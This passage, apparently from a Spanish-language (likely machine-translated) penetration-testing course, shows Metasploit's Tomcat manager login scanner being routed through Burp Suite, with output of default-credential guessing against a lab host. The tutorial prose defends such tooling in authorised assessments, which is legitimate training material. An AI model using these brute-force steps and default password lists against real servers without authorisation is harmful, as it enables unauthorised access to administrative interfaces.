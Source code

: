 ```
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed

```

Es importante tener en cuenta que hay muchas herramientas disponibles para nosotros como probadores de penetración. Muchos existen para hacer que nuestro trabajo sea más eficiente, especialmente porque la mayoría de las pruebas de penetración son "en el tiempo" o bajo restricciones de tiempo estrictas. Ninguna herramienta es mejor que otra, y no nos convierte en un probador de penetración "malo" si usamos ciertas herramientas como MetaSploit para nuestra ventaja. Siempre que entendemos que cada escáner y script de explotación que ejecutamos y los riesgos, entonces utilizar este escáner correctamente no es diferente del uso de Burp Intruder o escribir un script de Python personalizado. Algunos dicen: "Trabaja más inteligente, no más duro". ¿Por qué haríamos un trabajo adicional para nosotros durante una evaluación de 40 horas con 1,500 hosts en el alcance cuando podemos usar una herramienta en particular para ayudarnos? Es vital para nosotros entender`how`Nuestras herramientas funcionan y cómo hacer muchas cosas manualmente. Podríamos probar manualmente cada par de credenciales en el navegador o script esto usando`cURL`o Python si lo deseamos. Por lo menos, si decidimos usar una determinada herramienta, deberíamos poder explicar su uso y su impacto potencial para nuestros clientes si nos cuestionan durante o después de la evaluación.

Supongamos que un módulo de metasploit particular (u otra herramienta) está fallando o no comportándose como creemos que debería. Siempre podemos usar BURP Suite o ZAP para representar el tráfico y la solución de problemas. Para hacer esto, primero, enciende Burp Suite y luego establece el`PROXIES`Opción como la siguiente:

Atacando a Tomcat

```
msf6 auxiliary(scanner/http/tomcat_mgr_login) > set PROXIES HTTP:127.0.0.1:8080

PROXIES => HTTP:127.0.0.1:8080

msf6 auxiliary(scanner/http/tomcat_mgr_login) > run

[!] No active DB -- Credential data will not be saved!
[-] 10.129.201.58:8180 - LOGIN FAILED: admin:admin (Incorrect)
[-] 10.129.201.58:8180 - LOGIN FAILED: admin:manager (Incorrect)
[-] 10.129.201.58:8180 - LOGIN FAILED: admin:role1 (Incorrect)
[-] 10.129.201.58:8180 - LOGIN FAILED: admin:root (Incorrect)
[-] 10.129.201.58:8180 - LOGIN FAILED: admin:tomcat (Incorrect)
[-] 10.129.201.58:8180 - LOGIN FAILED: admin:s3cret (Incorrect)
[-] 10.129.201.58:8180 - LOGIN FAILED: admin:vagrant (Incorrect)
[-] 10.129.201.58:8180 - LOGIN FAILED: manager:admin (Incorrect)
[-] 10.129.201.58:8180 - LOGIN FAILED: manager:manager (Incorrect)
[-] 10.129.201.58:8180 - LOGIN FAILED: manager:role1 (Incorrect)
[-] 10.129.201.58:8180 - LOGIN FAILED: manager:root (Incorrect)
[-] 10.129.201.58:8180 - LOGIN FAILED: manager:tomcat (Incorrect)
[-] 10.129.201.58:8180 - LOGIN FAILED: manager:s3cret (Incorrect)
[-] 10.129.201.58:8180 - LOGIN FAILED: manager:vagrant (Incorrect)
[-] 10.129.201.58:8180 - LOGIN FAILED: role1:admin (Incorrect)

```
